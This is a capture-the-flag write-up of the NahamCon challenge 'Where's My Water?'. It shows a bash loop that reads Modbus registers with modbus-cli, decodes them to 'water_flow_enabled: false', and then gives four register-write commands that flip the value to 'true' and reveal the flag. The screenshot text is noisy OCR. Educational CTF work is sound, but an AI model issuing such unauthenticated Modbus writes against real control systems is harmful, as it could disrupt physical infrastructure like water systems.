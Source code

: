 # Where's My Water?
> Swampy's water has stopped working again just before his shower.
> Can you help him get the water running again?
> The other alligators said something about busmod... Whatever that is.

## About the Challenge
We got 2 servers, first we can access it using browser and here is the preview


[Image extracted text: 6 >
C
Not secure
challenge nahamconcom 32431
Swampy says the water still doesn't work]


And the other server, we need to access it using [modbus-cli](https://github.com/favalex/modbus-cli)

## How to Solve?
First, we need read the register, i have a created a bash script like this

```
#!/bin/bash
for i in {1..90}
do
  modbus challenge.nahamcon.com:31112 $i
done
```

Run the script and we got something like this


[Image extracted text: root@LAPTOP-FOL3RGSH: /home/daffainfo#
bash
test
sh
Parsed
registers
definitions
from
files
1:
97
0x61
Parsed
registers
definitions
from
files
2 :
116
Ox74
Parsed
registers
definitions
from
files
3:
101
0x65
Parsed
registers
definitions
from
files
4:
114
Ox72
Parsed
registers
definitions
from
files
5:
95
OxSf
Parsed
registers
definitions
from
files
6:
102
0x66
Parsed
registers
definitions
from
files
7:
108
Ox6c
Parsed
registers
definitions
from
files
8 :
111
Ox6f
Parsed
registers
definitions
from
files
9:
119
0x77
Parsed
registers
definitions
from
files
10:
95
OxSf
Parsed
registers
definitions
from
files
11:
101
0x65
Parsed
registers
definitions
from
files
12:
110
Ox6e]


Take the decimal number and then convert it to a character and you will get this result


[Image extracted text: Recipe
Input
119CR
From Decimal
97cR
116cR
Delimiter
CRLF
Support signed values
101cR
114CR
95cr
102cR
108 cR
111CR
119CR
95cR
101cR
110CR
97cR
111
Output
wwater
flow_enabled: false]


Change the `water_flow_enabled` value from `false` to `true` using modbus-cli (Rewrite the register). Here is the command I used to solve rewrite the register

```shell
modbus challenge.nahamcon.com:32299 19=116 # f -> t
modbus challenge.nahamcon.com:32299 20=114 # a -> r
modbus challenge.nahamcon.com:32299 21=117 # l -> u
modbus challenge.nahamcon.com:32299 22=101 # s -> e
```


[Image extracted text: root@LAPTOP-FOL3RGSH: /home
daffainfo#
modbus challenge
nahamcon
com
32299 19=116
# f - t
modbus
challenge.nahamcon. com
32299
20-114
73
modbus
challenge .nahamcon _
com
32299 21-117
# 1
~> u
modbus challenge .nahamcon. com
32299
22-101
#
73
Parsed
registers
definitions
from
files
Parsed
registers definitions
from
files
Parsed
registers
definitions
from
files
Parsed
registers
definitions
from
1 files]


And then access the first server to obtain the flag


[Image extracted text: 6 
C
Not secure
challenge nahamconcom 32431
The water is on!
flag{fe01fd254c40488f93f164e2343ed0044c6d87d3}]


```
flag{fe01fd254c40488ff3f164e2343cd0044c6d87d3}
```